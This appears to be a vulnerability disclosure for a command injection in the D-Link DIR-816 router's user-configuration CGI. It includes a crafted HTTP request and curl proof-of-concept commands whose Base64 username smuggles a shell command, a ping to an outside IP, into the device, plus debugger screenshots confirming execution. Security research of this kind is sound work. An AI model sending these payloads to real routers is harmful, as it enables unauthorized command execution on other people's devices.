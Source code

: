 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_4566E0 ruction in IDA view

<img src="./img/image-20210819130609706.png" alt="image-20210819130609706" style="zoom:50%;" />

​	Select user account configuration under the maintenance option of router configuration.

<img src="./img/image-20210819142952276.png" alt="image-20210819142952276" style="zoom:50%;" />

​	The modified user name is processed through the webdecode64 function and passed to the dosystem function in the form of formatted parameters. Therefore, the user name is constructed for command injection.

```
POST /goform/form2userconfig.cgi HTTP/1.1

Host: 192.168.33.9

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 183

Origin: http://192.168.33.9

Connection: close

Referer: http://192.168.33.9/d_userconfig.asp

Cookie: curShow=

Upgrade-Insecure-Requests: 1



username=Jztsczsn&privilege=2&oldpass=&newpass=MTIz&confpass=MTIz&deluser=%E5%88%A0%E9%99%A4&select=s0&hiddenpass=192.168.33.9&submit.htm%3Fuserconfig.htm=Send&tokenid=304089172
```

​	The function uses Base64 to decode the received user name, so Base64 encoding is required.

<img src="./img/image-20210819133402633.png" alt="image-20210819133402633" style="zoom:50%;" />

<img src="./img/image-20210819133845707.png" alt="image-20210819133845707" style="zoom:50%;" />

​	 this vulnerability requires the user to have permission to configure the router

##### POC&&EXP
First, get the tokenid 
```
curl -s http://192.168.33.9/dir_login.asp  | grep tokenid
```
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=JztwaW5nIDExMi4xMjYuOTkuOTE7Jw==&oldpass=123&newpass=MTIz&confpass=MTIz&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send&tokenid=1804289383"
```
It will decode our command Base64 and execute it 

##### TEST

​	First run our POC

<img src="./img/image-20210819160553286.png" alt="image-20210819160553286" style="zoom:50%;" />

​	GDB stops at the command we are about to execute

<img src="./img/image-20210819160627461.png" alt="image-20210819160627461" style="zoom:50%;" />

​	Successfully executed sh

<img src="./img/image-20210819161606757.png" alt="image-20210819161606757" style="zoom:50%;" />
